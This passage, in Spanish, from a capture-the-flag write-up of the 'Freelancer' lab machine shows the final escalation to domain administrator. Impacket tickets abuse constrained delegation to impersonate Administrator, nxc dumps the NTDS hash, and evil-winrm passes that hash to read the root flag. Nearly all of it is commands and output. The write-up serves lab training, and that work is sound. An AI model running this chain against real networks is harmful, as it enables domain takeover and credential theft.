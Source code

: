 ```bash
❯ getTGT.py 'freelancer.htb/uwuowo$:yXDsT1TaUe0ipLAfOLON09g53J4ZFkHF'
Impacket v0.12.0.dev1+20240411.142706.1bc283f - Copyright 2023 Fortra

[*] Saving ticket in uwuowo$.ccache
❯ export KRB5CCNAME=uwuowo$.ccache
❯ getST.py -impersonate Administrator -spn 'cifs/DC.freelancer.htb' -k -no-pass 'freelancer.htb/uwuowo$'
Impacket v0.12.0.dev1+20240411.142706.1bc283f - Copyright 2023 Fortra

[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

Podemos acceder al SMB como administrador con este ticket, por lo que vamos a tomar el hash NTLM de este

```bash
❯ nxc smb dc.freelancer.htb -k --use-kcache -u Administrator --ntds --user Administrator
SMB         dc.freelancer.htb 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         dc.freelancer.htb 445    DC               [+] freelancer.htb\Administrator from ccache (Pwn3d!)
SMB         dc.freelancer.htb 445    DC               [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         dc.freelancer.htb 445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:0039318f1e8274633445bce32ad1a290:::
```

Accediendo por WinRM ya podremos encontrar la última flag en el escritorio.

```bash
❯ evil-winrm -i freelancer.htb -u Administrator -H '0039318f1e8274633445bce32ad1a290'
                                        
Evil-WinRM shell v3.6
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        10/8/2024  11:45 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
4f7ba07d930933cba4ff25851b******
```
